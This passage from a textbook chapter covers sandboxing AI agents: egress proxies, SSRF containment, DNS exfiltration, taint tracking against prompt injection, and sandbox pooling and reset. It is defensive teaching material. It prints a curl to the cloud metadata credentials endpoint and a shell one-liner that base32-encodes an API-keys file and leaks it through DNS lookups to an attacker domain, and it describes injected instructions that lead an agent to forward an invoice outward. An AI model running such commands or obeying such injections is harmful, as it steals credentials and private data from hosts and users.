*Clamping DNS query rate and label length stretches a sub-second exfiltration to more than half an hour.*
:::

Return to the README attack with brokering in place, so that no credentials file exists inside the sandbox. The injected command can still post the repository's source code to the attacker's endpoint. On a cloud host it can do worse. A request to the instance metadata endpoint at a link-local address returns temporary credentials for the host's own cloud role to any local caller, and this server-side request forgery turns the sandbox's network access into the host's identity. Egress control narrows the third condition of the threat model, the channel out.

The design starts from zero ambient reachability. A new sandbox has no default route. Its only path out leads to an egress proxy the runtime controls, and a packet filter on the sandbox's virtual network interface enforces that path in the host kernel. The filter drops traffic to the link-local metadata range, to private address ranges, and to loopback, drops connections to raw IP addresses, and forwards only traffic addressed to the proxy. The proxy then decides, per request, whether a named destination is allowed. @Fig-vol3-network-egress shows the path.

::: {#fig-vol3-network-egress fig-env="figure" fig-pos="htb" fig-cap="**Egress Control for a Sandbox**: Outbound traffic from the sandbox's isolated network namespace meets a kernel packet filter that drops metadata-endpoint, private-range, and raw-IP traffic and forwards only connections to the egress proxy. The proxy checks the TLS server name against an allowlist, scans outbound bodies for secrets, and serves DNS from a split-horizon resolver that caps label length, filters high-entropy labels, and rate-limits queries. Allowed traffic reaches package registries and the task's own repository, while the metadata request, the reverse shell, and the unlisted host are blocked and logged." fig-alt="Four-column diagram. The first column shows the sandbox network namespace with no default gateway and four outbound flows: a package install, a metadata-endpoint request, a raw IP reverse shell, and a DNS tunnel. The second column lists five ordered kernel packet-filter rules that drop metadata, private-range, and raw-IP traffic, forward proxy traffic, and deny everything else. The third column shows the egress proxy with a server-name allowlist, outbound secret redaction, and a split-horizon DNS enclave. The fourth column shows permitted egress to package registries and blocked flows to the metadata endpoint, the raw IP, and an unlisted domain."}

:::

The proxy can enforce its allowlist at two depths, compared in @tbl-vol3-egress-filtering. Filtering on the server name in the TLS handshake is cheap and leaves client certificate checks intact, but once a connection to an allowed host is open the proxy cannot see what flows over it. Terminating TLS at the proxy exposes methods, paths, and bodies, at the cost of installing a runtime-owned certificate authority in the sandbox and breaking tools that pin certificates.

| Property                      | Server-name filtering                       | TLS termination at the proxy                         |
|:------------------------------|:--------------------------------------------|:-----------------------------------------------------|
| **What the proxy sees**       | The destination host name only              | Method, path, headers, and body                      |
| **Trust store in sandbox**    | Unmodified                                  | Must trust a runtime-owned certificate authority     |
| **Proxy overhead**            | Inspects the handshake, then relays bytes   | Decrypts and re-encrypts every request               |
| **Leak through allowed host** | Possible, for example in a request body     | Blockable by method and path rules and body scanning |
| **Tool compatibility**        | High, including certificate-pinning clients | Lower, since pinning clients reject the proxy        |

: **Egress Filtering Depth**: Filtering on the TLS server name vs. terminating TLS at the egress proxy, compared by what each can see, what it costs, and what it breaks. {#tbl-vol3-egress-filtering}

The distinction matters because an allowed host is still a channel. A trajectory permitted to reach a public code-hosting site can post a secret into a public gist as easily as it can clone a repository. Brokering narrows that channel further, because the proxy attaches credentials only for the methods and resources the capability covers. It can allow reads from a package registry and allow pushes only to the trajectory's own branch, and an unauthenticated upload to an arbitrary gist then fails at the far end.

### The default-deny primitive and SSRF containment

By default, an agent sandbox network interface must drop all outbound packets. The most critical threat vector mitigated by default-deny filtering is Server-Side Request Forgery (SSRF) targeting cloud metadata services. Cloud virtual machines expose instance metadata and temporary IAM credentials at the link-local IPv4 address `169.254.169.254` (or `[fd00:ec2::254]` in IPv6). If an agent possesses unconstrained network access, a prompt-injected script can query the instance metadata endpoint and exfiltrate host supervisor credentials:

```bash
$ curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/HostRole
```

Host packet filters (using `nftables` or `iptables`) must unconditionally drop all traffic destined for `169.254.169.254` as well as RFC 1918 private IPv4 subnets (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`), preventing lateral movement into internal cluster infrastructure.

### Transparent forward proxying and credential injection

When an agent legitimately requires external network access (for instance, to download language packages from PyPI or query a GitHub repository), the sandbox routes HTTP/HTTPS traffic through a mediating forward proxy:

```bash
export HTTP_PROXY="http://10.0.0.1:8080"
export HTTPS_PROXY="http://10.0.0.1:8080"
export NO_PROXY="localhost,127.0.0.1"
```

The host proxy daemon validates destinations against an explicit domain allowlist. Furthermore, the proxy enables *credential injection*: rather than placing sensitive API tokens (such as a GitHub personal access token) inside the sandbox filesystem or environment variables, the proxy intercepts outbound requests and injects the `Authorization: Bearer <token>` header in host user space. The sandboxed code never possesses the secret it uses.

### Covert DNS channels and exfiltration mechanics

When HTTP and TCP egress are blocked, an adversary can leverage recursive DNS resolution as a covert exfiltration channel. Because standard operating system network stacks require UDP port 53 for host name resolution, an adversarial script can encode confidential files (such as environment variables or private keys) into base32 or hex strings and issue DNS lookup queries for subdomains of an attacker-controlled apex domain:

```bash
$ cat /workspace/api_keys.env | base32 | tr -d '\n' | fold -w 50 | \
    while read chunk; do dig +short "${chunk}.exfil.attacker.com"; done
```

The recursive DNS resolver forwards the query across the public internet to the authoritative nameserver for `attacker.com`, which logs the query payloads and reassembles the exfiltrated secret.

To neutralize DNS exfiltration, the sandbox must prohibit arbitrary outbound UDP port 53 connections. All DNS traffic is forced through a dedicated local caching resolver that enforces:

1. **FQDN Allowlisting**: Resolves only explicitly pre-approved domain names.
2. **Split-Horizon Query Dropping**: Drops all queries for non-whitelisted apex domains before packet transmission.
3. **Query Length and Entropy Caps**: Traps and alerts on queries exceeding 64 characters or exhibiting high Shannon entropy characteristic of encoded data.

## Tracking Untrusted Data {#sec-vol3-sandboxes-taint}

A support agent reads a customer's inbox and can send replies, read access plus an $A_2$ tool. One incoming message ends with a request to forward the most recent invoice to an outside auditing address. Every mechanism so far approves the resulting call. `send_email` was granted, the mail API is on the egress allowlist, the proxy holds the mail credential, and the envelope never saw the invoice leave, because the invoice left as a tool argument. The exfiltration channel is the tool itself.

Dataflow tracking, also called taint tracking, closes this gap by following where values come from rather than where packets go. The idea comes from information flow control in operating systems and languages [@myers1997complete; @krohn2007information]. The runtime attaches a label to every value that records its origin, using the provenance tags that @sec-vol3-context-engineering-staging attaches to every observation, and a value derived from a labeled value inherits the label. The policy is enforced at the tool boundary. A value carrying an untrusted label may not flow into an argument that directs an effect across the trust boundary, such as a recipient address, a URL, a destination host, or a shell command, unless the approval gate of @sec-vol3-controlplane-hitl clears it.

The model defeats this tracking if it is applied naively. Every token the model emits depends on its entire context, so once untrusted text enters the context the only sound label for the next proposal is untrusted. After the first fetched web page, every argument of every later call carries the taint, and a policy that demands approval for tainted arguments demands approval for everything.

The quarantined-reader pattern restores precision by keeping untrusted text away from the model that chooses actions. A planner model sees only the user's request and trusted context, and it emits a plan in which untrusted content appears only as opaque references such as `$message_body` or `$invoice_date`. A separate reader model, holding no tools, processes the untrusted content and returns values bound to those references, ideally as narrow structured types (a boolean, an enumeration, a date) enforced by the grammar-constrained decoding of @sec-vol3-foundation-model-grammar-constrained. The runtime executes the plan, substitutes the reader's values into tool arguments, and applies the taint policy argument by argument, because each substituted value now carries its own label. An instruction planted in the email can change what the reader extracts. It cannot change the plan, and the policy decides whether a tainted value may land in a recipient field.

The pattern has real costs. The planner cannot branch on content it never sees, so the plan must be expressible before the untrusted text is read. Each step needs two model calls. The reader can still be steered to return a wrong value within its type, which is why a tainted recipient still goes to approval rather than straight to dispatch. What the pattern changes is where enforcement happens. Instead of trusting the model to ignore planted instructions, which only lowers their success rate, the runtime checks an explicit dataflow before dispatch, as the invariant closure principle (\ref{pri-invariant-closure}) requires. Using taint to quarantine the effects of a failure after the fact is a recovery technique, and @sec-vol3-sagas-quarantine takes it up.

Every mechanism in this chapter is paid for before the first turn. An envelope must boot, an overlay must mount, a network namespace and proxy route must be wired, and credentials must be minted. Unless those costs are hidden, they tempt operators to skip the boundary.

## Sandbox Pools and Reset {#sec-vol3-sandboxes-pooling}

An evaluation run launches five hundred coding trajectories at the same moment, and each needs a microVM with a fresh workspace, a network namespace, and scoped credentials. If every envelope boots on demand, the boots serialize on the host and the first tool call of half the run waits behind the others. Reinforcement learning makes the same demand at larger scale, with thousands of short rollouts each needing a clean environment. Pre-warmed pools with a strict reset contract let the runtime keep the strongest envelope without paying its start cost on the critical path.

```{python}
#| label: calc-vol3-sandbox-pool-sizing
#| echo: false
# ┌─────────────────────────────────────────────────────────────────────────────
# │ SANDBOX POOL SIZING FOR PER-TRAJECTORY LEASES (LEGO)
# ├─────────────────────────────────────────────────────────────────────────────
# │ Context: @sec-vol3-sandboxes-pooling-snapshots, the pool-sizing notebook in
# │          @sec-vol3-sandboxes-pooling-queueing, and the chapter takeaways.
# │
# │ Goal: Size a warm sandbox pool from the illustrative MLSysIM coding-agent
# │       sandbox profile (acquisition, snapshot restore, guest memory), so the
# │       chapter's one set of microVM start costs comes from the registry.
# │ Show: Active leases, standby miss probability, burst drain time, and the
# │       memory saved by copy-on-write sharing.
# │ How:  Little's law for active leases, a Poisson tail for arrivals during
# │       one restore window, rounds of parallel restores for a burst.
# └─────────────────────────────────────────────────────────────────────────────
import math

from mlsysim import *

class SandboxPoolSizing:
    # ┌── 1. LOAD (Constants & Parameters) ─────────────────────────────────
    harness = Agents.Coding.SWE_Bench_Runner
    t_acquire = harness.sandbox_startup_latency  # lease from a warm pool
    t_restore = harness.sandbox_snapshot_restore_latency  # replenish one standby from snapshot
    m_guest = harness.sandbox_memory_footprint  # full guest image per sandbox

    arrival_rate = 2.0 / ureg.second  # scenario assumption: new trajectories per second
    t_hold = 300 * ureg.second  # scenario assumption: lease held for the whole trajectory
    m_dirty = 64 * ureg.MB  # scenario assumption: private pages one trajectory writes
    burst = 500  # scenario assumption: evaluation run launched at once
    restore_workers = 8  # scenario assumption: snapshot restores in parallel
    target_miss = 1e-3  # design target for finding the standby queue empty

    # ┌── 2. EXECUTE (Compute) ─────────────────────────────────────────────
    n_active = (arrival_rate * t_hold).to("dimensionless").magnitude
    mu_restore = (arrival_rate * t_restore).to("dimensionless").magnitude
    p_two_or_more = 1 - math.exp(-mu_restore) * (1 + mu_restore)
    burst_rounds = math.ceil(burst / restore_workers)
    burst_drain = (burst_rounds * t_restore).to("ms")
    m_private = (n_active * m_guest).to("GB")
    m_all_dirty = (n_active * m_dirty).to("GB")
    m_cow = (m_guest + n_active * m_dirty).to("GB")
    cow_ratio = (m_private / m_cow).to("dimensionless").magnitude

    # ┌── 3. GUARD (Invariants) ───────────────────────────────────────────
    check(p_two_or_more < target_miss, f"A standby of one must meet the miss target, got {p_two_or_more}")
    check(m_cow < m_private, "Copy-on-write sharing must use less memory than private guest images")
    check(burst_drain.to("s").magnitude < 5, f"Snapshot restore should drain the burst in seconds, got {burst_drain}")

    # ┌── 4. OUTPUT (Formatting) ──────────────────────────────────────────
    t_acquire_str = fmt(t_acquire, unit="ms", precision=0)
    t_restore_str = fmt(t_restore, unit="ms", precision=0)
    m_guest_str = fmt(m_guest.to("GB"), precision=3)
    arrival_rate_str = fmt(arrival_rate.magnitude, precision=0)
    t_hold_str = fmt_int(t_hold.magnitude)
    n_active_str = fmt_int(n_active)
    mu_restore_str = fmt(mu_restore, precision=2)
    p_two_or_more_str = fmt_percent(p_two_or_more, precision=2)
    target_miss_str = fmt_percent(target_miss, precision=1)
    m_private_str = fmt_int(m_private.magnitude)
    m_dirty_str = fmt_int(m_dirty.magnitude)
    m_all_dirty_str = fmt(m_all_dirty.magnitude, precision=1)
    m_cow_str = fmt(m_cow.magnitude, precision=1)
    cow_ratio_str = fmt(cow_ratio, precision=1)
    burst_str = fmt_int(burst)
    restore_workers_str = fmt_int(restore_workers)
    burst_rounds_str = fmt_int(burst_rounds)
    burst_drain_str = fmt_int(burst_drain.magnitude)
```

### The latency–isolation frontier {#sec-vol3-sandboxes-pooling-frontier}

Two extremes bracket the design. A fresh envelope for every tool call gives the strongest hygiene, since no call ever shares mutable state with another, but it pays the full start cost on every call and throws away the workspace between turns. A persistent environment reused across a session, or across sessions, costs nothing to start, and everything accumulates in it: background processes from earlier turns, files in temporary directories, open sockets, and any compromise an injected instruction managed to plant. The pool sits between them. The runtime keeps envelopes that are already initialized and waiting, leases one to each trajectory for the trajectory's whole life (@sec-vol3-sandboxes-lease), and when the lease ends returns the envelope to a known state by rollback or destroys it.

::: {#fig-vol3-sandbox-pool-lifecycle fig-env="figure" fig-pos="htb" fig-cap="**Sandbox Pool Lifecycle**: A pooled envelope waits in `WARM_STANDBY` with its virtual CPUs paused, its memory mapped from a golden snapshot, and no network attached. A lease request moves it to `LEASED` within milliseconds by mounting the trajectory's upper layer, attaching its network namespace, and resuming execution. When the trajectory ends or its lease expires, the envelope becomes `TAINTED` and may not serve another lease. `RECLAIMING` discards the upper layer, drops private memory pages back to the snapshot, and audits the result, returning a clean envelope to standby and sending any failure to `DESTROYED`." fig-alt="State machine with five boxes. Warm standby, with paused virtual CPUs, snapshot memory, detached network, and base filesystem only, transitions on a lease request to leased, a single-trajectory lease with mediated egress and acquisition under 5 milliseconds. Leased transitions on trajectory end or timeout to tainted, which forbids serving further leases. Tainted transitions on rollback to reclaiming, which discards the upper layer, rolls back memory, and audits the guest. Reclaiming returns to warm standby when the audit passes, and reclaiming or tainted go to destroyed on audit failure, rollback timeout, hard timeout, or kernel crash."}

:::

@Fig-vol3-sandbox-pool-lifecycle traces one envelope through the pool. The state that matters most is `TAINTED`, the rule that an envelope whose lease has ended can never serve another lease until something outside the guest has returned it to a known state.

### Restoring from a snapshot {#sec-vol3-sandboxes-pooling-snapshots}

Holding many fully booted guests idle would cost the full guest memory of each one. Snapshot restore avoids that. The runtime boots one golden guest to its ready state, with the kernel up, the interpreter started, and the task's dependencies loaded, and then saves its memory and device state. A new envelope maps the saved memory copy-on-write and fetches pages lazily as the guest touches them, so an idle envelope costs little more than page tables and monitor state. Pages that no guest writes, such as kernel text, shared libraries, and loaded bytecode, exist once in host memory for the whole pool, and only the pages a trajectory writes become private to it. In the illustrative coding-agent sandbox profile this chapter uses, acquiring an envelope from a warm pool takes `{python} SandboxPoolSizing.t_acquire_str` ms, restoring a fresh one from its snapshot takes `{python} SandboxPoolSizing.t_restore_str` ms, and a full guest image occupies `{python} SandboxPoolSizing.m_guest_str` GB.

### Snapshot rehydration via userfaultfd on-demand paging

Re-hydrating an instance from a memory snapshot avoids the entire kernel boot sequence. Rather than allocating fresh physical memory and copying gigabytes of state over the host memory bus, the supervisor initializes a new KVM virtual machine context and maps the serialized snapshot file using the Linux `mmap` system call with private, copy-on-write semantics:

$$\text{HVA} = \text{mmap}\left(\text{NULL}, M_{\text{guest}}, \text{PROT\_READ} \mid \text{PROT\_WRITE}, \text{MAP\_PRIVATE}, \text{fd}_{\text{snapshot}}, 0\right)$$

Under `MAP_PRIVATE`, the host operating system kernel does not copy physical memory pages into the new process address space during initialization. Instead, it creates page table entries referencing the read-only file cache pages of the golden template snapshot. Multiple concurrent sandboxes share the exact same underlying physical RAM pages for all read-only operations, including kernel text, shared libraries, and Python bytecode.

For distributed or network-backed snapshots, Linux's `userfaultfd` (UFFD) mechanism enables lazy, demand-driven page loading. When the guest vCPU attempts to execute code or read memory on an unmapped guest physical page, an EPT violation traps to the host kernel. The host kernel suspends the vCPU thread and dispatches a page-fault notification over the `userfaultfd` file descriptor to a user-space page provider daemon. The daemon fetches the 4 KB page over the network or local NVMe storage, registers it with `ioctl(uffd, UFFDIO_COPY)`, and resumes vCPU execution, following the lifecycle mapped in @tbl-vol3-uffd-states.

| Page Classification          | Memory Residency                  | Host Page Table Entry (PTE)     | Guest Access Trigger                     | Kernel Resolution & Copy Dynamics                                                 |
|:-----------------------------|:----------------------------------|:--------------------------------|:-----------------------------------------|:----------------------------------------------------------------------------------|
| **Unaccessed Snapshot Page** | Backing NVMe image file           | `PTE_PRESENT = 0` (Unmapped)    | Guest instruction fetch or read          | Host MMU traps; delivers missing page message over `userfaultfd` descriptor.      |
| **In-Flight Paging Request** | Host supervisor memory buffer     | Suspended vCPU thread           | Asynchronous page fetch                  | Supervisor calls `ioctl(uffd, UFFDIO_COPY, ...)` to populate host physical frame. |
| **Shared Read-Only Page**    | Host page cache (Golden template) | `PTE_PRESENT = 1`, `PROT_READ`  | Subsequent guest read accesses           | Direct reads from host DRAM without duplication; shared across $N$ microVMs.      |
| **Dirty Private CoW Page**   | Private host DRAM frame           | `PTE_PRESENT = 1`, `PROT_WRITE` | Guest write intent (`store`, stack/heap) | Host MMU write fault; transparently duplicates 4 KiB frame into private DRAM.     |

: **userfaultfd On-Demand Page Lifecycle and State Transitions**: Memory states, fault interception, and copy-on-write page duplication dynamics during microVM execution. {#tbl-vol3-uffd-states}

### The reset contract {#sec-vol3-sandboxes-pooling-reset}

When a lease ends, a tempting shortcut is to clean the envelope in place by killing the agent's processes, deleting temporary files, and returning it to standby. The shortcut fails because a general-purpose guest hides state in far more places than a cleanup script checks. A daemon that double-forked into shared memory survives the process kill. An abstract socket stays bound without any file on disk. A token stays in the kernel keyring, a cron entry waits for the next tenant, and an attacker-modified `git` or `pytest` sits on the search path. The next tenant's trajectory inherits all of it, which turns one injection into a cross-tenant compromise.

::: {.column-margin}
**Reset Asymmetry**
Proving an environment clean requires inspecting every place state can hide. Proving it dirty requires finding one leftover. A reset that does not depend on inspection is therefore more dependable than any cleaning procedure.
:::

Containment beneath the model (principle \ref{pri-vol3-zero-trust-sandboxing}) extends to reset. The runtime returns an envelope to service in one of two ways, both driven from outside the guest and neither dependent on finding what the tenant left behind. It can destroy the envelope and restore a replacement from the snapshot, or it can roll the existing envelope back by discarding the upper layer, dropping every private memory page so that reads fall through to the snapshot again, and resetting the virtual CPU state. Either way, the envelope that returns to standby matches the golden snapshot by construction rather than by inspection.

| Reset Dimension                        | OverlayFS Directory Reclamation                                      | Block-Level Snapshotting (`dm-thin` / Btrfs)      | Pre-Warmed MicroVM Rollback (`madvise`)                 |
|:---------------------------------------|:---------------------------------------------------------------------|:--------------------------------------------------|:--------------------------------------------------------|
| **Teardown Primitive**                 | `umount` + asynchronous directory unlink (`rm -rf`)                  | Snapshot de-allocation + thin device discard      | `madvise(MADV_DONTNEED)` + vCPU register reset          |
| **Algorithmic Complexity**             | $\mathcal{O}(k_{\text{inodes}})$ directory tree traversal            | $\mathcal{O}(1)$ B-tree leaf pointer release      | $\mathcal{O}(1)$ VMA page table zeroing                 |
| **Reset Latency ($T_{\text{reset}}$)** | $1\text{--}5\text{ ms}$ (Async) / $200\text{--}800\text{ ms}$ (Sync) | $< 5\text{ ms}$                                   | **$< 2\text{ ms}$**                                     |
| **Page Cache Sharing**                 | Unified host page cache across all sandboxes                         | Deduplicated only within common block tree        | Shared template page cache; private CoW dirty pages     |
| **Host Write Amplification**           | Proportional to modified file sizes                                  | Block-level granularity (typically 64 KiB chunks) | Page-level granularity (4 KiB or 2 MiB huge pages)      |
| **Failure Mode**                       | Inode exhaustion or lock contention on host XFS                      | Block pool allocation exhaustion under leak       | Kernel lockup if dirty page flushing stalls host memory |

: **Workspace Reset Architectures: Union Filesystem Teardown versus Block-Level Thin Provisioning**: Performance characteristics, algorithmic complexities, and operational failure modes. {#tbl-vol3-reset-architectures}

As compared in @tbl-vol3-reset-architectures, tearing down ephemeral scratchpads delivers deterministic clean states without in-place residual leakage.

### Cross-tenant contamination failure trace

In-place workspace scrubbing—attempting to clean up an existing container or process environment by deleting modified files and killing known PIDs—invariably leaks state across tenant boundaries. @Lst-vol3-cross-tenant-trace illustrates a production failure trace where in-place scrubbing allowed background daemons, abstract UNIX domain sockets, and kernel keyring entries to persist:

::: {#lst-vol3-cross-tenant-trace lst-cap="**Failure Trace: Cross-Tenant Contamination via Incomplete In-Place Scrubbing**: Detection of persistent background daemons, abstract socket bindings, and leaked kernel keyring secrets following an in-place environment cleanup attempt."}
```bash
# Failure trace: Cross-tenant contamination via incomplete in-place scrubbing
[2026-09-19T11:02:14.102Z] AUDIT host_scrubber: Workspace scrubbed; scanning for lingering state...
[2026-09-19T11:02:14.105Z] INVARIANT VIOLATION: Daemon survived via double-fork into root namespace (PID 14209)
[2026-09-19T11:02:14.106Z] INVARIANT VIOLATION: Abstract unix domain socket remains bound (@agent-backdoor)
[2026-09-19T11:02:14.108Z] INVARIANT VIOLATION: Leaked credential in Linux kernel keyring (key_id=0x38fa21b)
```
:::

### Pool dimensioning under bursty traffic {#sec-vol3-sandboxes-pooling-queueing}

Two quantities size a pool. With leases held for a whole trajectory, Little's law, which @sec-vol3-kv-capacity-formulations applied to resident trajectories (derivation in @sec-vol3-appendix-inference-queueing), gives the number of active leases as $N_{\text{active}} = \lambda \cdot T_{\text{hold}}$, where $\lambda$ is the rate at which trajectories start and $T_{\text{hold}}$ is how long each holds its lease. The standby reserve must cover arrivals during the time $T_{\text{init}}$ it takes to replenish one envelope. Arrivals in that window are roughly Poisson with mean $\lambda T_{\text{init}}$, so for a target probability $\epsilon$ of finding the standby queue empty, a reserve of

$$S_{\min} \ge \lambda T_{\text{init}} + z_{1-\epsilon} \sqrt{\lambda T_{\text{init}}}$$

suffices when $\lambda T_{\text{init}}$ is large, with $z_{1-\epsilon}$ the standard normal quantile. When replenishment is fast the mean is small, and the Poisson tail can be read directly. Memory follows from copy-on-write sharing. The pool holds one template, one set of private pages per active lease, and small monitor state per standby envelope:

$$M_{\text{pool}} = M_{\text{template}} + N_{\text{active}} \cdot M_{\text{dirty}} + S \cdot M_{\text{standby}}$$

The equations show that horizon, not tool latency, sets the size of the fleet. A lease held for the whole trajectory makes active leases scale with trajectory duration, and copy-on-write is what keeps that from scaling memory by the full guest image.

::: {#nbk-08-sizing-a-pre-warmed-microvm-pool .callout-notebook title="Sizing a warm pool for per-trajectory leases"}

**Problem**: A platform starts `{python} SandboxPoolSizing.arrival_rate_str` coding trajectories per second, and each holds a microVM lease for `{python} SandboxPoolSizing.t_hold_str` s. Restoring an envelope from its snapshot takes `{python} SandboxPoolSizing.t_restore_str` ms, a full guest image is `{python} SandboxPoolSizing.m_guest_str` GB, and each trajectory writes about `{python} SandboxPoolSizing.m_dirty_str` MB of private pages. How large a standby reserve keeps the chance of an empty queue below `{python} SandboxPoolSizing.target_miss_str` percent, how much memory do the active leases need, and how long does a burst of `{python} SandboxPoolSizing.burst_str` simultaneous trajectories wait?

**Variables**:

* Arrival rate $\lambda$: `{python} SandboxPoolSizing.arrival_rate_str` trajectories per second, each holding its lease for $T_{\text{hold}}$ of `{python} SandboxPoolSizing.t_hold_str` s.
* Replenishment time $T_{\text{init}}$: one snapshot restore, `{python} SandboxPoolSizing.t_restore_str` ms.
* Memory: a `{python} SandboxPoolSizing.m_guest_str` GB template, $M_{\text{dirty}}$ of `{python} SandboxPoolSizing.m_dirty_str` MB per active lease.
* Burst: `{python} SandboxPoolSizing.burst_str` trajectories at once, served by `{python} SandboxPoolSizing.restore_workers_str` restores in parallel.

**Math**:

Active leases are $N_{\text{active}} = \lambda T_{\text{hold}}$, or `{python} SandboxPoolSizing.arrival_rate_str` $\times$ `{python} SandboxPoolSizing.t_hold_str` $=$ `{python} SandboxPoolSizing.n_active_str`.

Arrivals during one restore average $\lambda T_{\text{init}}$, or `{python} SandboxPoolSizing.mu_restore_str`. With a standby reserve of one, the queue runs dry only if two or more arrive in one restore window, which happens with probability $1 - e^{-\lambda T_{\text{init}}}(1 + \lambda T_{\text{init}}) \approx$ `{python} SandboxPoolSizing.p_two_or_more_str` percent, below the target. One standby envelope is enough.

If every lease held a private copy of the guest, memory would be `{python} SandboxPoolSizing.n_active_str` $\times$ `{python} SandboxPoolSizing.m_guest_str` GB $\approx$ `{python} SandboxPoolSizing.m_private_str` GB. With copy-on-write, the pool holds one `{python} SandboxPoolSizing.m_guest_str` GB template plus `{python} SandboxPoolSizing.n_active_str` $\times$ `{python} SandboxPoolSizing.m_dirty_str` MB $=$ `{python} SandboxPoolSizing.m_all_dirty_str` GB of private pages, about `{python} SandboxPoolSizing.m_cow_str` GB in all and `{python} SandboxPoolSizing.cow_ratio_str` times less.

The burst empties the reserve at once. Restoring `{python} SandboxPoolSizing.burst_str` envelopes `{python} SandboxPoolSizing.restore_workers_str` at a time takes `{python} SandboxPoolSizing.burst_rounds_str` rounds (the burst divided by the parallel restores, rounded up) of `{python} SandboxPoolSizing.t_restore_str` ms each, so the last trajectory in the burst waits about `{python} SandboxPoolSizing.burst_drain_str` ms for its envelope.

**Systems insight**: With snapshot restore, the standby reserve is almost free and even a large evaluation burst drains in under a second. The real cost of strong isolation is resident memory for active leases, which grows with trajectory duration, and copy-on-write sharing is what keeps a fleet of per-trajectory microVMs affordable.

:::

### Sandboxes as evaluation and rollout substrate {#sec-vol3-sandboxes-substrate}

The machinery that contains a production agent is also what makes an agent measurable and trainable. A pinned base image, the repository at a fixed commit together with its toolchain, defines the task environment. The reset contract guarantees that every attempt starts from the same state, so a difference in pass rate between two policies reflects the policies rather than state left behind by an earlier attempt. The grader mounted read-only outside the writable layer is the sealed verifier that @sec-vol3-evaluation-gyms builds into its evaluation harness, and pools sized for bursts supply the rollout throughput that @sec-vol3-trajectory-curation and @sec-vol3-rlvr depend on. A leaky reset appears downstream as evaluation results that do not reproduce, and in training as a policy that learns to exploit what the previous rollout left behind.

The mechanisms of this chapter are individually simple, and most failures in practice come from skipping one of them because another seemed sufficient.

## Fallacies and Pitfalls {#sec-vol3-sandboxes-fallacies}

Sandboxing errors persist because each shortcut works in testing, where no one has planted an instruction or triggered an edge case.

::: {.fallacy-pitfall}
**Fallacy: Language-level AST validation and restricted globals can sandbox interpreted runtimes.**
*Pitfall:* High-level dynamic languages (Python, Ruby, Node.js) treat scopes, classes, and methods as mutable objects in a unified heap. Removing builtins breaks only symbolic variable references. Any literal tuple, string, or integer retains bidirectional pointers linking back to the universal base class `object`, whose `__subclasses__()` method exposes every class loaded in memory. Furthermore, static AST analysis cannot resolve dynamic string concatenation, hex decoding, or `getattr()` calls (undecidable by Rice's theorem). A single native extension (NumPy, Pillow) vulnerability completely collapses user space into Ring 0 host compromise.
:::

::: {.fallacy-pitfall}
**Fallacy: Operating system containers (Docker/runC) provide multi-tenant isolation boundaries.**
*Pitfall:* Containers isolate namespaces (`PID`, `NET`, `MNT`) within a single monolithic Linux kernel. Every system call from a container transitions directly to host Ring 0. A single kernel vulnerability in any of the 450+ host syscalls, eBPF subsystems, or `io_uring` drivers grants arbitrary root execution across all co-located sandboxes.
:::

::: {.fallacy-pitfall}
**Fallacy: In-place filesystem and process scrubbing is faster and just as secure as tearing down copy-on-write overlays.**
*Pitfall:* In-place scrubbing invariably suffers from cross-tenant contamination. Double-forked background processes escaping to PID 1, abstract UNIX domain sockets, bound network ports, and Linux kernel keyring credentials persist across scrub passes. Reliable multi-tenant security demands unmounting and destroying ephemeral OverlayFS scratchpads and recycling or re-hydrating microVMs from clean snapshots.
:::

::: {.fallacy-pitfall}
**Fallacy: Network firewalls blocking outbound TCP/UDP traffic are sufficient to prevent data exfiltration.**
*Pitfall:* If the sandbox retains access to a standard recursive DNS resolver on UDP port 53, an adversarial script can exfiltrate sensitive files by encoding data into subdomain labels (`base32(secret).attacker.com`). Containment requires split-horizon DNS filtering with strict FQDN allowlisting, query length caps, and dropping all unauthorized apex queries.
:::

## Summary {#sec-vol3-sandboxes-summary}

A granted, well-typed tool call still runs code whose reach the grant cannot see, and the model that proposed it reads planted instructions in the same sequence as its own. This chapter bounded that reach below the model. An injection exfiltrates data only when private data, untrusted content, and an outbound channel meet. Capabilities and credential brokering keep secrets and ambient authority out of the sandbox, an isolation envelope chosen by the code, the authority, and the duration bounds what the code can touch, a copy-on-write workspace leased per trajectory keeps work across turns and discards it between tenants, and egress control and taint tracking narrow the paths by which data can leave. Pools with snapshot restore and a strict reset contract then make the strongest envelope cheap enough that no one has reason to weaken it.

::: {.callout-takeaways title="Bound the reach, not the request"}

* **The limit lives below the model**: Instructions and untrusted data share one token sequence, so prompts and framing only lower the chance a planted instruction is followed. What an action can reach is fixed by the envelope, capabilities, and egress policy the runtime enforces.
* **Break the injection conjunction**: Exfiltration needs private data, untrusted content, and a channel out. Brokered credentials take secrets out of the sandbox, egress control and taint checks narrow the channel, and the envelope bounds what code can touch.
* **Envelope strength follows code, authority, and duration**: Pure computation fits a bytecode sandbox started per call, model-written native code needs its own guest kernel, and a long trajectory amortizes a microVM's start over hundreds of turns.
* **Lease per trajectory, reset per tenant**: A copy-on-write workspace preserves an agent's edits across turns while sharing one base image. At lease end its upper layer is exported as a diff and discarded, never cleaned and reused.
* **Pools make strong isolation affordable**: With snapshot restore, one standby envelope absorbs steady arrivals, and copy-on-write memory cuts the resident footprint of per-trajectory microVMs about `{python} SandboxPoolSizing.cow_ratio_str`-fold, so latency never justifies a weaker boundary.

:::

Agent sandboxes turned containment beneath the model (principle \ref{pri-vol3-zero-trust-sandboxing}) into mechanisms with measured costs. The envelope's strength follows from the code it holds, reset happens by rollback or destruction rather than cleaning, and pooling recovers the start-up cost that makes strong isolation tempting to skip. Together with the typed action contract (principle \ref{pri-vol3-strict-action-abi}), the envelope bounds the authority a single action carries over what its code can read and send as well as what it can change, and the invariant closure principle (\ref{pri-invariant-closure}) explains why every one of these bounds sits in the runtime rather than in the model's instructions.

::: {.callout-chapter-connection title="From bounded actions to a bounded trajectory"}
What bounds a trajectory once each of its actions is bounded? Nothing in this chapter does. A trajectory strings hundreds of contained actions across hours, and something must hold its lease and its record, count its turns and its spending, hold an irreversible proposal until a person approves it, and stop the loop without the model's cooperation. @Sec-vol3-agent-harness builds that harness and opens Part IV.
:::

```{=latex}
\part{key:vol3_runtime}
```
